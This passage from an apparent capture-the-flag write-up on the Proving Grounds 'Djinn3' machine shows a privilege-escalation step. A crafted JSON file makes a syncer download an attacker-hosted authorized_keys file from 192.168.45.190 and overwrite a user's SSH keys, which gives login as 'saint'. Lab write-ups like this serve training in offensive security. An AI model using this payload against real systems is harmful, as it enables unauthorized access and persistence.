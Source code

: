 ```py

        return filename

    set_config_path = staticmethod(set_config_path)
```

Create malicious json file and move the file to `/tmp` folder in the attacking machine.

## Exploitation

### Malicious json file creation

```json
{
"URL" : "http://192.168.45.190:8000/authorized_keys",
"Output" : "/home/saint/.ssh/authorized_keys"
}
```

Copy the json file to `/tmp` folder in the attacking machine and wait for the syncer to read and write our authorized SSH key to saint user `.ssh` folder.

**authorized_keys overwritten**

![img](/assets/images/CTF/Proving_Grounds/Djinn3/authz_key.png)

Successfully logged into user `saint`.

![img](/assets/images/CTF/Proving_Grounds/Djinn3/saint.png)

User `saint` has the ability to add an user as super user. As shown in the below screenshot the root user already exists in the system, so we are adding a new user to the root user group.
